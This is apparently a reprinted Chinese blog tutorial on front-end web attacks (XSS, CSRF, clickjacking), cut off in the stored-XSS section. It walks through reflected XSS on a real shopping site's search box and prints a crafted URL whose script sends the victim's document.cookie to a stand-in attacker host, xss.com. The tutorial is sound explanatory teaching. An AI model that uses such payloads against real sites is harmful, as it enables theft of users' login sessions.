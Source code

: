 ```yaml
---
title: 'Web安全的三个攻防姿势' 
date: 2018-12-28 2:30:11
hidden: true
slug: vtwaypqj6i
categories: [reprint]
---
```


{{< raw >}}

                    
<p><span class="img-wrap"><img data-src="/img/remote/1460000011601842?w=500&amp;h=334" src="https://static.alili.tech/img/remote/1460000011601842?w=500&amp;h=334" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<blockquote><p>关于Web安全的问题，是一个老生常谈的问题，作为离用户最近的一层，我们大前端确实需要把手伸的更远一点。</p></blockquote>
<p>我们最常见的Web安全攻击有以下几种</p>
<ol>
<li><p>XSS 跨站脚本攻击</p></li>
<li><p>CSRF 跨站请求伪造</p></li>
<li><p>clickjacking 点击劫持/UI-覆盖攻击</p></li>
</ol>
<p>下面我们来一一分析</p>
<h1 id="articleHeader0">XSS 跨站脚本攻击</h1>
<blockquote><p>跨站脚本攻击（Cross Site Scripting），为了不和层叠样式表（Cascading Style Sheets,&nbsp;CSS）的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者<strong>往Web页面里插入恶意Script代码</strong>，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。</p></blockquote>
<h2 id="articleHeader1">分类</h2>
<ol>
<li><p>Reflected XSS（基于反射的XSS攻击）</p></li>
<li><p>Stored XSS（基于存储的XSS攻击）</p></li>
<li><p>DOM-based or local XSS（基于DOM或本地的XSS攻击）</p></li>
</ol>
<h3 id="articleHeader2">Reflected XSS（基于反射的XSS攻击）</h3>
<p>主要通过利用系统反馈行为漏洞，并欺骗用户主动触发，从而发起Web攻击。<br>举个栗子：</p>
<p>1- 假设，在<a href="http://you.163.com" rel="nofollow noreferrer" target="_blank">严选</a>网站搜索商品，当搜索不到时站点会做“xxx未上架提示”。如下图。</p>
<p><span class="img-wrap"><img data-src="/img/remote/1460000011303488" src="https://static.alili.tech/img/remote/1460000011303488" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<p>2- 在搜索框搜索内容，填入“&lt;script&gt;alert('xss')&lt;/script&gt;”, 点击搜索。</p>
<p>3- 当前端页面没有对填入的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。</p>
<p><span class="img-wrap"><img data-src="/img/remote/1460000011303489" src="https://static.alili.tech/img/remote/1460000011303489" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<p>（当然上图是模拟的）</p>
<p>以上3步只是“自娱自乐”，XSS最关键的是第四步。</p>
<p>4- 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="http://you.163.com/search?keyword=<script>document.location='http://xss.com/get?cookie='+document.cookie</script>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code style="word-break: break-word; white-space: initial;">http://you.163.com/search?keyword=<span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript"><span class="hljs-built_in">document</span>.location=<span class="hljs-string">'http://xss.com/get?cookie='</span>+<span class="hljs-built_in">document</span>.cookie</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></code></pre>
<p>5- 如果受骗的用户刚好已经登录过严选网站，那么，用户的登录cookie信息就已经发到了攻击者的服务器（<em>xss.com</em>）了。当然，攻击者会做一些更过分的操作。</p>
<h3 id="articleHeader3">Stored XSS（基于存储的XSS攻击）</h3>
<p>Stored XSS和Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。</p>
<p>再举个栗子：<br>1- 发一篇文章，里面包含了恶意脚本</p>
<div class="widget-codetool" style="display:none;">